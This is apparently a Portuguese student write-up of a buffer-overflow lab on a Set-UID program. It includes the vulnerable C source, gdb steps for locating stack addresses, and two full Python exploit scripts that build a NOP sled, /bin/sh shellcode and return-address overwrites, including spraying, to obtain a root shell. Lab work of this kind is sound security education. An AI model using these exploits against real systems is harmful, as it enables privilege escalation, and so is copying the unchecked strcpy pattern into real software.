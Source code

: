 # Semana #5 - Buffer-Overflow Attack Lab - Set-UID Version

## Task 1 - Getting familiar with shellcode

Esta task familiariza-nos com shellcode. Aprendemos que a melhor maneira para correr shellcode é através de código assembly. Aprendemos, também, um pouco sobre o código assembly utilizado para chamar a função **execve()** e executar `/bin//sh`.
Depois de compilar o ficheiro `call_shellcode.c`, são criados 2 ficheiros:

- `a32.out`, que contém o código em 32 bits
- `a64.out`, que contém o código em 64 bits

Embora o código assembly seja diferente dependendo se é 32 bits ou 64 bits, quando corremos notamos que ambos, de facto, abrem a shell bash e, depois de escrever `whoami`, ambas as bashes respondem com **seed**.


## Task 2 - Understanding the Vulnerable Program

Primeiramente, começamos por compilar o ficheiro `stack.c` e torná-lo num Set-UID program através dos seguintes comandos:

```
sudo chown root stack
```


```
sudo chmod 4755 stack
```

O conteúdo do `stack.c` é o seguinte:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```


Alternadamente, podemos simplesmente fazer **make**, pois o `Makefile` já tem as instruções para fazer isto.

Depois de fazer **make**, são criados 4 pares de ficheiros executáveis:

- `stack-L1` e `stack-L1.dbg`
- `stack-L2` e `stack-L2.dbg`
- `stack-L3` e `stack-L3.dbg`
- `stack-L4` e `stack-L4.dbg`

Agora, falta mudar o conteúdo do `badfile` para conseguirmos dar exploit à vulnerabilidade existente.

## Task 3 - Launching Attack on 32-bit Program (Level 1)

Primeiro, temos que criar o ficheiro `badfile`:

```
touch badfile
```

Agora, vamos correr o código em modo debug para conseguirmos descobrir a distância entre a posição inicial do **buffer** e o sítio onde o **return address** está armazenado. Para isso, vamos escrever a seguinte instrução: 

```
gdb stack-L1-dbg
```

Depois de meter um breakpoint na função **bof()**, executar o programa e dar alguns passos para a frente, podemos saber o endereço do **$ebp** da seguinte forma:

```
p $ebp
```

Que retornou `(void *) 0xffffcb18`.<br>
Podemos fazer o mesmo para descobrir o endereço do buffer:

```
p &buffer
```

Que retornou `0xffffcaac`.<br>

Por fim, alteramos o ficheiro `exploit.py` para ter os valores dos endereços obtidos. O ficheiro final ficou assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Foram necessárias fazer mudanças ao ficheiro original.<br>
Primeiro, mudamos o shellcode para código de 32 bits, que tinha sido dado no ficheiro `call_shellcode.c`.
Depois mudamos o start, que representa o início do shellcode na stack e calculamo-lo subtraindo o tamanho da shellcode ao tamanho lido do badfile, ou seja:

```py
start = 517 - len(shellcode)
```

Finalmente, falta calcular o novo return address, que nos vai levar ao shellcode, e o offset, que representa a distância entre o return address e o início do buffer. Isto é para escrevermos no `badfile`, onde anteriormente estava o return address, um return address novo, que nos levará ao shellcode.
Para calcular o return address basta pegar no valor do **$ebp** e somar um número para que, depois de sair da função, o endereço esteja num local preenchido só por NOP's, que faz com que prossiga até, finalmente, chegar ao shellcode.<br>
Para calcular o offset, temos que subtrair ao **$ebp** o valor do endereço do **buffer** e somar 4, para incluir o antigo return address:

```py
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4
```

Finalmente, corremos o `exploit.py`, que vai criar o `badfile`, seguido do `stack-L1` e obtemos a seguinte mensagem:

```
# <---- Bingo! You’ve got a root shell!
```

## Task 4 - Launching Attack without Knowing Buffer Size (Level 2)


Embora este exercício seja semelhante ao anterior, o facto de não sabermos o tamanho do buffer leva-nos a ter de ter uma approach diferente em relação, especialmente, ao return address. Como não é suposto sabermos o **$ebp**, não conseguimos calcular o offset e, portanto, não conseguimos dar pinpoint à localização do return address que queremos dar override.<br>
Vamos, portanto, ter de recorrer a **spraying**.

**Spraying** consiste em encher o buffer com o novo return address que queremos, pois, assim, mesmo não sabendo o tamanho do `buffer` e, por sua vez, o endereço do return address, como sabemos o tamanho máximo do `buffer` sabemos o endereço máximo que o antigo return address pode ocupar.

O `exploit.py` ficou da seguinte forma:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcaac + 420
#offset = 0xffffcb18 - 0xffffcaac + 4  # Não é necessário para este caso

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Desta vez, como não temos o **$ebp** para calcular o **ret**, usamos o endereço do início do `buffer`, devido a isto o número adicionado tem de ser maior do que o tamanho máximo do `buffer`, que é **200 bytes** e ser alto o suficiente para atingir a zona preenchida por NOP's <br>
Portanto, o novo return address ficou com o valor:

```py
ret = 0xffffcaac + 420
```

Por fim, não podemos calcular onde colocar o novo return address como no exercício anterior, portanto recorremos a **spraying**:

```py
for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
```

Este **ciclo for** vai colocar em todos os endereços do `buffer` o novo return address, calculado anteriormente.

Desta forma, após correr:

```
./exploit.py
./stack-LX
```

Onde **X** é um número de 1 a 2, conseguimos ter acesso à shell.

**P.S** : É preciso notar que os endereços variam de stack para stack, portanto não serão os mesmos para a stack-L1 e para a stack-L2.
Além disso, as stacks L3 e L4 são de 64 bits, portanto não são relevantes a esta task.
